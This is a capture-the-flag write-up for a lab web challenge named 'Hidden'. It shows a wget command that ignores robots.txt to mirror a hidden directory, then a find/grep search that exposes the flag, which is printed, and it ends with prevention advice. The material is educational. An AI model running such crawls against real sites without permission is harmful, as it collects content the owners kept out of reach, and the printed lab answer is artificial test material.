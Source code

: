 # Hidden

The robots.txt file is used to tell web crawlers and other well-meaning robots a few things about the structure of a website,
including what areas do not contain interesting information (and should therefore not be indexed).


## Exploit

*find_flag.sh* runs the following steps of the exploit. You will need to update the VM_IP before you run.

```./find_flag.sh```


Go to page:

{VM_IP}/robots.txt

This page contains a folder */.hidden*. Navigate to {VM_IP}/.hidden/.
Inside, you will find many directories. 

Run the following command to download all the directories to your computer:

```wget -q -e robots=off -r -nH --no-parent --reject="index.html*" '{VM_IP}/.hidden/'```

* -q quiet
* -e is a flag option it needs to be there for the robots=off to work.
* robots=off means ignore robots file. 
* --no-host-directories       don't create host directories
* --no-parent: don't follow links outside the directory

Run this command to search all the directories and subdirectories for READMEs containing numbers:

```find .hidden -name "README" -exec grep -l -e '[0-9]' {} +```

* -l, --files-with-matches
* grep -E to access the extended regular expression syntax
* -exec command ;
          Execute  command;  true  if 0 status is returned.  All following
          arguments to find are taken to be arguments to the command until
          an  argument  consisting of `;' is encountered

This reveals the filepath containing the flag:

.hidden/whtccjokayshttvxycsvykxcfm/igeemtxnvexvxezqwntmzjltkt/lmpanswobhwcozdqixbowvbrhw/README

... and here's the flag! 99dde1d35d1fdd283924d84e6d9f1d820


## Prevention

If you have sensitive areas in your robots.txt file, then you seriously need to review the architecture of your site. 
No sensitive directories should ever be accessible to the public in any way. In fact, anything exposed to the public 
should be secured, whether it is visible or not.

